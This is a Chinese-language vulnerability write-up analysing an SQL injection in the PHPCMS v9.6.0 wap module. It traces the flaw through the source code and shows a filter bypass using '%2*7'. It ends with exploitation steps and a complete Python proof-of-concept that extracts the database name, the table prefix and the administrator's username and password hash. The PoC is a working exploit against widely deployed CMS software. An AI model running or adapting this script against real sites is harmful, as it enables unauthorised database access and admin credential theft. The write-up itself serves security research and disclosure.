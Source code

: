 ```yaml
---
title: "PHPCMS v9.6.0 wap模块sql注入漏洞分析"
date: 2017-08-04 14:19:51
tags: [php,代码审计,sql注入]
categories: Web Security
copyright: true
---
```

[PHPCMS v9.6.0 wap模块sql注入漏洞分析](https://chybeta.github.io/2017/08/04/%C2%96PHPCMS-v9-6-0-wap%E6%A8%A1%E5%9D%97sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
<!-- more -->
# 漏洞分析

在/phpcms/modules/content/down.php中，约莫第11行：
```php
public function init() {
	$a_k = trim($_GET['a_k']);
	if(!isset($a_k)) showmessage(L('illegal_parameters'));
	$a_k = sys_auth($a_k, 'DECODE', pc_base::load_config('system','auth_key'));
	if(empty($a_k)) showmessage(L('illegal_parameters'));
	unset($i,$m,$f);
	parse_str($a_k);
	if(isset($i)) $i = $id = intval($i);
	if(!isset($m)) showmessage(L('illegal_parameters'));
	if(!isset($modelid)||!isset($catid)) showmessage(L('illegal_parameters'));
	if(empty($f)) showmessage(L('url_invalid'));
	$allow_visitor = 1;
	$MODEL = getcache('model','commons');
	$tablename = $this->db->table_name = $this->db->db_tablepre.$MODEL[$modelid]['tablename'];
	$this->db->table_name = $tablename.'_data';
	$rs = $this->db->get_one(array('id'=>$id));
```
首先，通过GET方法得到参数`$a_k`。在经过`sys_auth`解密(里面有个DECODE)后，对`$a_k`进行了一次parse_str($a_k)，parse_str()会把字符串解析到对ing的变量中。在经过解析后，通过语句`$rs = $this->db->get_one(array('id'=>$id));`将变量id带入查询。所以目标是寻找一个能加密的地方，并且能够回显给我们，这样就能构造参数$a_k，并造成注入。

在 /phpcms/modules/attachment/attachments.php 中，约莫第239行
```php
public function swfupload_json() {
		$arr['aid'] = intval($_GET['aid']);
		$arr['src'] = safe_replace(trim($_GET['src']));
		$arr['filename'] = urlencode(safe_replace($_GET['filename']));
		$json_str = json_encode($arr);
		$att_arr_exist = param::get_cookie('att_json');
		$att_arr_exist_tmp = explode('||', $att_arr_exist);
		if(is_array($att_arr_exist_tmp) && in_array($json_str, $att_arr_exist_tmp)) {
			return true;
		} else {
			$json_str = $att_arr_exist ? $att_arr_exist.'||'.$json_str : $json_str;
			param::set_cookie('att_json',$json_str);
			return true;			
		}
	}
```

通过GET方法得到参数$arr['src']，先经过`safe_replace()`过滤。我们先看一下`safe_replace()`函数。
```php
function safe_replace($string) {
	$string = str_replace('%20','',$string);
	$string = str_replace('%27','',$string);
	$string = str_replace('%2527','',$string);
	$string = str_replace('*','',$string);
	$string = str_replace('"','&quot;',$string);
	$string = str_replace("'",'',$string);
	$string = str_replace('"','',$string);
	$string = str_replace(';','',$string);
	$string = str_replace('<','&lt;',$string);
	$string = str_replace('>','&gt;',$string);
	$string = str_replace("{",'',$string);
	$string = str_replace('}','',$string);
	$string = str_replace('\\','',$string);
	return $string;
}
```
将`%27`等关键字过滤。但是利用“\*”会被直接过滤为空这点，假设传入的$string为`%2*7`,则在替换后，会变成`%27`，从而获得单引号，其余可类似绕过。

接下来继续运行。若不满足条件，会进入set_cookie()函数，具体如下：
```php
public static function set_cookie($var, $value = '', $time = 0) {
	$time = $time > 0 ? $time : ($value == '' ? SYS_TIME - 3600 : 0);
	$s = $_SERVER['SERVER_PORT'] == '443' ? 1 : 0;
	$var = pc_base::load_config('system','cookie_pre').$var;
	$_COOKIE[$var] = $value;
	if (is_array($value)) {
		foreach($value as $k=>$v) {
			setcookie($var.'['.$k.']', sys_auth($v, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);
		}
	} else {
		setcookie($var, sys_auth($value, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);
	}
}
```
其中，会将传入的参数进行一次加密sys_auth($value, 'ENCODE')，这正好满足我们前面的需求。

为了能访问到swfupload_json()，我们需要一个cookie。这样在访问时才不会直接跳转到登陆也main。接下来就是寻找能够给我们提供这次setcookie机会的接口。比如说wap模块。
在 /phpcms/modules/wap/index.php 中，约莫第6行
```php
function __construct() {		
	$this->db = pc_base::load_model('content_model');
	$this->siteid = isset($_GET['siteid']) && (intval($_GET['siteid']) > 0) ? intval(trim($_GET['siteid'])) : (param::get_cookie('siteid') ? param::get_cookie('siteid') : 1);
	param::set_cookie('siteid',$this->siteid);
```
通过GET方法得到$siteid，然后传到了set_cookie()函数中，满足条件。

# 利用
## 利用步骤
+ 访问 /index.php?m=wap&a=index&siteid=1 。获取响应头的set-Cookie字段。
+ 将前一步获取到的字段赋值给userid_flash，作为POST参数。访问 /index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=【payload】
+ 获取返回头的set—Cookie字段，此即为加密后的payload
+ 访问 /index.php?m=content&c=down&a_k=【加密后的payload】，注入成功。

## [cmsPoc](https://github.com/CHYbeta/cmsPoc)
开源CMS渗透测试框架 [cmsPoc](https://github.com/CHYbeta/cmsPoc)中已集成了利用脚本 v960_sqlinject_getpasswd.py。

```python
from lib.core.data import target
import requests,sys,urllib
def poc():
	try:
		url = target.url
		sqli_prefix = '%*27an*d%20'
		sqli_info = 'updatexml(1,concat(1,(user())),1)'
		sqli_password1 = 'updatexml(1,concat(1,(select concat(0x6368796265746124,username,0x3a,password,0x3a,encrypt,0x6368796265746124) from '
		sqli_password2 = '_admin limit 0,1)),1)'
		sqli_padding = '%23%26m%3D1%26f%3Dwobushou%26modelid%3D2%26catid%3D6'

		step1 = url + '/index.php?m=wap&a=index&siteid=1'
		r = requests.get(step1)
		post = {"userid_flash":r.cookies["GPYAh_siteid"]}
		print('[+] Get Cookie : ' + r.cookies["GPYAh_siteid"])

		step2  = url + "/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=" + sqli_prefix + sqli_info+ sqli_padding
		r = requests.post(step2,data=post)
		sqli_payload = r.cookies["GPYAh_att_json"]
		print('[+] Get SQLi Payload : ' + sqli_payload)

		step3 = url + '/index.php?m=content&c=down&a_k=' + sqli_payload
		html = requests.get(step3).text

		db_start = html.find("SELECT * FROM `") + len("SELECT * FROM `")
		db_end = html.find("`.`")
		Database = html[db_start:db_end]
		print("[+] Get Database Name: "+ Database)

		tableprefix_start = html.find("`.`") + len("`.`")
		tableprefix_end = html.find("_download_data")
		tableprefix = html[tableprefix_start:tableprefix_end]
		print("[+] Get Table Prefix: "+ tableprefix)

		startIndex = html.find("XPATH syntax error: '") + len("XPATH syntax error: '")
		endIndex = html.find("' <br /> <b>MySQL Errno")
		database_user = html[startIndex:endIndex]
		print("[+] Get Database-user Information : " + database_user)

		step4  = url + "/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=" + sqli_prefix + sqli_password1+ tableprefix + sqli_password2 + sqli_padding
		r = requests.post(step4,data=post)
		sqli_payload = r.cookies["GPYAh_att_json"]

		setp5 = url + '/index.php?m=content&c=down&a_k=' + sqli_payload
		html = requests.get(setp5).text
		startIndex = html.find("XPATH syntax error: '") + len("XPATH syntax error: '")
		endIndex = html.find("' <br /> <b>MySQL Errno")
		admin_passwd = html[startIndex:endIndex]
		print("[+] Get User Passwd: " + admin_passwd)

		print("\033[33m[*] Complete this task: {} \033[0m".format(target.url))

	except KeyError as e:

		print("\033[31m[!] This poc doesn't seem to work.Please try another one.\033[0m")
```

![](https://github.com/CHYbeta/cmsPoc/blob/master/tty.gif?raw=true)
